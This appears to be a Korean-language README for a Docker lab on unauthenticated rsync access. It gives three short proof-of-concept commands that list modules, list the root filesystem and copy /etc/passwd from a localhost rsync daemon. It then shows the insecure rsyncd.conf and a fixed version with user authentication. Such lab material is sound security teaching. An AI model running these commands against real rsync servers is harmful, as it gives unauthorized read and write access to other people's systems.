


# rsync 무단 접근 취약점

rsync는 SSH와 rsync를 이용하여 원격 파일 전송을 지원하는 Linux용 데이터 백업 도구입니다.
만약 대상에 rsync가 활성화가 되어있고, 이에 대해 ACL(Access Control Line)이나 별도의 비밀번호가 설정되어있지 않다면 무단으로 해당 machine에 접근하여 파일을 읽고 쓸 수 있습니다

## Container 환경 구축
```
docker compose build
docker compose up -d
```
Container가 올라가는 시간이 좀 길어서 넉넉잡아 10분정도 기다리셔야 합니다

## PoC
모든 PoC 코드는 shell script로 동일하게 작성이 되어있기에 해당 스크립트를 이용하셔도 됩니다.

poc1.sh
```
rsync rsync://localhost:873/
```
위 코드를 이용하면 설치된 src 모듈을 확인할 수 있다.



poc2.sh
```
rsync rsync://localhost:873/src/
```
위 코드를 이용하면 Container(machine)의 / 경로의 모든 파일들을 출력한다.


poc3.sh
```
rsync -av rsync://localhost:873/src/etc/passwd ./
```
위 코드를 이용하면 Container(machine)의 passwd 파일을 현재 directory에 passwd 파일을 생성하여 기록한다.



## 이유

rsync를 실행할 때 설정 파일인 rsyncd.conf 파일은 아래와 같다
```
uid = root
gid = root
use chroot = no
max connections = 4
syslog facility = local5
pid file = /var/run/rsyncd.pid
log file = /var/log/rsyncd.log

[src]
path = /
comment = src path
read only = no
```
위 파일에는 별도의 인증 절차가 존재하지 않고 게다가 root directory를 공유하게 설정되어있다. 따라서 ACL도 설정이 되어있지 않다면 누구나 접근하여 사용할 수 있다. 따라서 인증 절차를 설정할 필요가 있다.
```
uid = root
gid = root
use chroot = no
max connections = 4
syslog facility = local5
pid file = /var/run/rsyncd.pid
log file = /var/log/rsyncd.log

[src]
path = /
comment = src path
read only = no
auth users = user1, user2
secrets file = /etc/rsync.auth
```
위 코드에는 user name에 대한 인증 목록을 생성했고 별도의 key file이 있어야 접속이 가능하게 설정하였다. 이외에도 ssh나 http에서 인증절차를 추가하는 방법도 존재한다.
